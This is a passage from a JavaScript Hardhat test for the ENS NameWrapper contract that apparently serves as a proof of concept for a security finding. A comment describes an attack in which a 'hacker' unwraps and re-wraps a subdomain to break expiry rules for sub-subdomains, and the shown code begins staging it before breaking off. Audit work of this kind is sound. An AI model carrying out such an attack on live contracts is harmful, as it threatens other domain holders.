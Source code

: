```javascript=
    )

    //make sure base registrar is owner of eth TLD
    expect(await EnsRegistry.owner(namehash('eth'))).to.equal(
      BaseRegistrar.address
    )
  })

  beforeEach(async () => {
    result = await ethers.provider.send('evm_snapshot')
  })
  afterEach(async () => {
    await ethers.provider.send('evm_revert', [result])
  })

  describe('subdomain can be re-wrapped', () => {
    /*
     * Attack scenario:
     *  + The hacker owns a domain (or a 2LD), e.g., base.eth
     *  + The hacker assigns a sub-domain to himself, e.g., sub1.base.eth
     *      + The expiry should be as large as possible
     *  + Hacker assigns a sub-sub-domain, e.g., sub2.sub1.base.eth
     *      + The expiry should be as large as possible
     *  + The hacker unwraps his sub-domain, i.e., sub1.base.eth
     *  + The hacker re-wraps his sub-domain, i.e., sub1.base.eth
     *      + The expiry can be small than the one of sub2.sub1.base.eth
     */
    before(async () => {
      await BaseRegistrar.addController(NameWrapper.address)
      await NameWrapper.setController(dev, true)
    })

    it('a passed test denotes a successful attack', async () => {
      const label = 'base'
      const labelHash = labelhash(label)
      const wrappedTokenId = namehash(label + '.eth')

      // register a 2LD domain
      await NameWrapper.registerAndWrapETH2LD(
        label,
        hacker,
        86400,
        EMPTY_ADDRESS,
        CAN_DO_EVERYTHING,
        MAX_EXPIRY
      )
      const block = await provider.getBlock(await provider.getBlockNumber())
      const expiry = block.timestamp + 86400
      expect(await BaseRegistrar.ownerOf(labelHash)).to.equal(
        NameWrapper.address
      )
      expect(await EnsRegistry.owner(wrappedTokenId)).to.equal(
        NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedTokenId)).to.equal(hacker)
      expect(
          (await NameWrapper.getFuses(wrappedTokenId))[1]
      ).to.equal(expiry)

      // assign a submomain
      const subLabel = 'sub1'
      const subLabelHash = labelhash(subLabel)
      const subDomain = subLabel + '.' + label + '.eth'
```